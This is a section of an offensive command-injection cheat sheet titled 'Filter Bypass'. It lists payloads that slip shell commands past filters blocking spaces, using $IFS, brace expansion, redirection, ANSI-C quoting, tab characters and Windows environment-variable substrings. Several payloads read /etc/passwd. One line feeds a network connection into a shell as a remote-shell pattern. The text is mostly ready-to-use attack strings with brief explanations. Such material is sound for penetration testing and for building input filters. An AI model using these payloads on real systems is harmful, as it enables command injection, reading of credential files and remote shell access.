 ### Filter Bypass

{% tabs %}
{% tab title="Without Space" %}
#### IFS

`$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a seperator in commands like `ls`, `wget`; use `${IFS}` instead.

```bash
cat${IFS}/etc/passwd
ls${IFS}-la
```

#### Brace expansion

In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.

```bash
{cat,/etc/passwd}
```

#### Redirection

Input redirection. The < character tells the shell to read the contents of the file specified.

```bash
cat</etc/passwd
sh</dev/tcp/127.0.0.1/4242
```

#### ANSI-C Quoting

```bash
X=$'uname\x20-a'&&$X
```

#### Tab character

The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.

```bash
;ls%09-al%09/home
```

#### Windows Operations

In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.

```powershell
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```
{% endtab %}
